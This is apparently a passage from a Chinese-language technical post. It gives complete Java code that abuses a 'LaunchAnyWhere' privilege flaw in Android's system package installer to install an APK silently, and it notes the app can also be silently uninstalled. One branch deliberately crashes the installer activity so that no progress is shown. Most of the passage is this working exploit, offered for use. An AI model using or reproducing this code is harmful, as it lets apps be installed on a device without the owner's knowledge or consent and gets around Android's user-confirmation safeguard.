 然后就可以静默卸载掉这个应用。

完整代码
----

```
public static void autoInstall(Context context, File apkFile, boolean ignoreInstalling) throws IOException {
    if (!apkFile.exists() || !apkFile.getName().endsWith(".apk")) {
        Log.e(TAG, "Must use an apk file to silent install.");
        return;
    }
    // 打开PackageInstaller的session
    PackageInstaller pi = context.getPackageManager().getPackageInstaller();
    PackageInstaller.SessionParams params =
            new PackageInstaller.SessionParams(PackageInstaller.SessionParams.MODE_FULL_INSTALL);
    int sessionId = pi.createSession(params);
    PackageInstaller.Session session = pi.openSession(sessionId);
    // 写入apk到session
    OutputStream os = session.openWrite("package", 0, -1);
    FileInputStream fis = new FileInputStream(apkFile);
    byte[] buffer = new byte[4096];
    for (int n; (n = fis.read(buffer)) > 0;) {
        os.write(buffer, 0, n);
    }
    fis.close();
    os.flush();
    os.close();
    // 将文件复制到download目录
    // 如果文件存在会重复
    Android.copyFileToDownload(context, apkFile, apkFile.getName(),
            "application/vnd.android.package-archive");
    // 传给InstallInstalling的时候，需要是file uri
    // 因为后面是由system_server执行startActivityAsUser，所以不会受到FileUriExposedException的影响
    File apkFileInDownload = new File(Environment
            .getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS), apkFile.getName());
    // 构造调用InstallInstalling的Intent
    Intent installingIntent = new Intent();
    installingIntent.setClassName(Constants.PACKAGE_INSTALLER_PKG,
            Constants.PACKAGE_INSTALLER_PKG + ".NewInstallInstalling");
    installingIntent.putExtra("EXTRA_STAGED_SESSION_ID", sessionId);
    installingIntent.setData(Uri.fromFile(apkFileInDownload));
    if (ignoreInstalling) {
        installingIntent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK |
                Intent.FLAG_ACTIVITY_NO_ANIMATION);
    } else {
        // 如果不传这个参数，InstallInstalling在提交安装Session之后就会崩溃，实现不显示安装进度效果。
        PackageInfo packageInfo = context.getPackageManager()
                .getPackageArchiveInfo(apkFile.getAbsolutePath(), PackageManager.GET_PERMISSIONS);
        if (packageInfo == null) {
            Log.e(TAG, "getPackageArchiveInfo returns null, failed to auto install.");
            return;
        }
        installingIntent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
        installingIntent.putExtra("com.android.packageinstaller.applicationInfo",
                packageInfo.applicationInfo);
    }
    // exploit system!
    launchAnyWhereExploit(Constants.PACKAGE_INSTALLER_PKG,
            installingIntent, false);
}

```